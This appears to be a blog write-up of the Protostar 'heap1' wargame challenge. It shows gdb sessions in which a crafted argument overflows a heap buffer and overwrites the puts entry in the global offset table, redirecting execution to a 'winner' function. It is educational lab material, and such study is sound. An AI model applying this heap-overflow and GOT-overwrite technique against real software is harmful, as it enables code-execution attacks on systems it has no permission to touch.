~~~
(gdb) run `python -c "print('A'*20+'\x11\xef\xcd\xab'+' a')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 `python -c "print('A'*20+'\x11\xef\xcd\xab'+' a')"`

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0xabcdef11 <Address 0xabcdef11 out of bounds>, 
    src=0xbffffeb3 "a") at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) 
~~~

Building upon previous knowledge, as gained in my previous post on the
formatting-challenges; What if we overwrite a address located in the
global-offset table using the bug above?

The puts-function (printf in the source-code) in main can be
overwritten, as it's the only function left to be called after strcpy
returns.

~~~
(gdb) shell objdump -TR /opt/protostar/bin/heap1

/opt/protostar/bin/heap1:     file format elf32-i386
...
08049774 R_386_JUMP_SLOT   puts
~~~

Winner is located at `0x08048494`.

And, putting it all together.

~~~
(gdb) run `python -c "print('A'*20+'\x74\x97\x04\x08'+' \x94\x84\x04\x08')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 `python -c "print('A'*20+'\x74\x97\x04\x08'+' \x94\x84\x04\x08')"`
and we have a winner @ 1454508194
~~~

![Billy boy]({{ site-url }}/assets/post_images/heap1_success.jpg)

### Lots to learn

My understanding on heap overflowing exploitation is limited. I've
skimmed through [this article](http://phrack.org/issues/57/9.html#article) 
but I need time to digest its entrails.

Initially I was totally clueless on how this would even be possible;
But somewhere along the way on trying to find out how heap-exploits
work under the hood, I figured I should at least try to do it,
regardless of any understanding. I stopped reading and started trying.
